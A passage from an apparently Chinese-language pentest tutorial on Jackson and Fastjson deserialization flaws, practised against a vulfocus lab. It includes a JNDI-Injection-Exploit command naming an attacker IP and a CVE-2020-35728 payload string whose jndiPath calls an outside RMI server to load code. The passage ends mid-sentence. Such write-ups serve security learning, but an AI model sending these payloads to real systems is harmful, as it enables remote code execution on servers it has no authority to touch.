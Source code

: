 java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A 192.168.66.152  
  
这里-C是命令，calc打开计算器，-A是攻击机ip  
  
这里这个工具还是用  
jndiexploit-1.4-SNAPSHOT.jar 吧  
### 这里使用vulfocus开启一个靶场  
  
注意:黑盒测试中如何判断jackson漏洞,观察Content-Type:application/json,或者返回包中有这种格式,然后可以在body构造json格式发送  
  
只要是json格式就可以测一下,或者xml的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuOVdJhlicw1XraMHFDdV7q7wyD7gPgzjlu0ibsrnTDBib4ZNfXmvoKT1Bg/640?wx_fmt=png&from=appmsg "")  
  
这里访问靶场给的路径抓包或者直接在页面查看也可以  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuMZa205MEDFXYh6iaibSKpicVZIhiaDsDuJ0jrEcyosNGSf1ia3A0TBOvrGQ/640?wx_fmt=png&from=appmsg "")  
  
这里java.lang一串参数为空,也就是可以提交参数的地方,这个conten为空  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuich6nXpRhySTg7IKjLLKNR2vbqhlPS5ibWCtDbs1PDTbhdGchPRpgibQw/640?wx_fmt=png&from=appmsg "")  
  
这里就可以改成post方法,然后加上这个参数  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuZCLmaxvCvwNFguWQibBtCiaaj7HlwsMMnS8eHXiaZB9QBDCqqZCxHxiapQ/640?wx_fmt=png&from=appmsg "")  
  
看这里响应包就明确了确实是jackson的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8turtLjf5R179aMOJdGZg8CWMv2ZmobNSZic8icksp74OpdHpPPA2bYJUQw/640?wx_fmt=png&from=appmsg "")  
  
这里主要还是一个jndi注入,用官方poc即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tusIUQrh4oeFBxoyQ6OBho1pmKjQp9cjFwec8pHaDbmhFicmlesT5ISmA/640?wx_fmt=png&from=appmsg "")  
# 代码执行 (CVE-2020-35728)  
  
FasterXML jackson-databind 2.x < 2.9.10.8  
  
String payload = "[\"com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool\",  
  
{\"jndiPath\":\"rmi://47.94.236.117:1099/gtaafz\"}]";  
# 2、J2EE-组件FastJson（JSON）  
  
阿里巴巴公司开源的json解析器，它可以解析JSON格式的字符串，支持将JavaBean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。  
### Fastjson漏洞原理  
  
Fastjson为了读取并判断传入的值是什么类型，增加了autotype机制导致了漏洞产生。由于要获取json数据详细类型，每次都需要读取
```
@type
```

  
，而@type可以指定反序列化任意类调用其
```
set
```
